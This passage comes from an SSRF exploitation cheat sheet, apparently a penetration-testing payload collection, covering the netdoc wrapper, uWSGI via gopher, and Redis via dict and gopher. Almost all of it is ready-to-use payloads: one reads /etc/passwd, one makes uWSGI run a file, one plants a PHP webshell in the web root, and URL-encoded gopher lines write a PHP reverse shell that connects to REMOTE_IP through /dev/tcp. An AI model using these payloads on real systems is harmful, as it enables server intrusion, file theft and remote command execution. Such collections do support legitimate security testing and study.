 ### Netdoc

Wrapper for Java when your payloads struggle with "\n" and "\r" characters.

```powershell
ssrf.php?url=netdoc:///etc/passwd
``` 

## SSRF exploiting WSGI

Exploit using the Gopher protocol, full exploit script available at https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py.

```powershell
gopher://localhost:8000/_%00%1A%00%00%0A%00UWSGI_FILE%0C%00/tmp/test.py
```

| Header    |           |             |
|-----------|-----------|-------------|
| modifier1 | (1 byte)  | 0 (%00)     |
| datasize  | (2 bytes) | 26 (%1A%00) |
| modifier2 | (1 byte)  | 0 (%00)     |

| Variable (UWSGI_FILE) |           |    |            |   |
|-----------------------|-----------|----|------------|---|
| key length            | (2 bytes) | 10 | (%0A%00)   |   |
| key data              | (m bytes) |    | UWSGI_FILE |   |
| value length          | (2 bytes) | 12 | (%0C%00)   |   |
| value data            | (n bytes) |    | /tmp/test.py   |   |
	

## SSRF exploiting Redis

> Redis is a database system that stores everything in RAM

```powershell
# Getting a webshell
url=dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html
url=dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20file.php
url=dict://127.0.0.1:6379/SET%20mykey%20"<\x3Fphp system($_GET[0])\x3F>"
url=dict://127.0.0.1:6379/SAVE

# Getting a PHP reverse shell
gopher://127.0.0.1:6379/_config%20set%20dir%20%2Fvar%2Fwww%2Fhtml
gopher://127.0.0.1:6379/_config%20set%20dbfilename%20reverse.php
gopher://127.0.0.1:6379/_set%20payload%20%22%3C%3Fphp%20shell_exec%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FREMOTE_IP%2FREMOTE_PORT%200%3E%261%27%29%3B%3F%3E%22
gopher://127.0.0.1:6379/_save
```
